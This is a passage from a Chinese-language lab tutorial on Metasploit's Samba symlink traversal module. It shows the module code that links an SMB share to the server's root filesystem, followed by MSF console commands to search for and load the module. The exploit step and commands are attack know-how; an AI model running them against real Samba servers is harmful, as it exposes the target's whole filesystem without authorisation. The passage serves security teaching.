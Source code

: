 ```
    # 尝试进入 root filesystem 文件系统
    print_status("Trying to link '#{datastore['SMBTARGET']}' to the root filesystem...")
    self.simple.client.symlink(datastore['SMBTARGET'], "../" * 10)

    # 进入成功后，在屏幕上输入成功标志
    print_status("Now access the following share to browse the root filesystem:")
    print_status("\t\\\\#{rhost}\\#{datastore['SMBSHARE']}\\#{datastore['SMBTARGET']}\\")
    print_line("")
  end

end 
  

```

代码关键模块讲解结束后，我们在 MSF 终端中，进行实战，输入如下命令：

```
search samba
```

![此处输入图片的描述](../imgs/wm_7.png)


注意：这一步在实验楼中使用 `search samba` 会花较长的时间，同学们可以直接看老师搜索出来的结果，跳过这一步不会影响实验，造成缓慢的主要原因是因为没有进行缓存。解决的办法是使用缓存命令 `db_rebuild_cache` 进行缓存，提高索引速度：


```
# 使用 samba_symlink_traversal 模块

use auxiliary/admin/smb/samba_symlink_traversal 

# 查看参数

show options
         
```
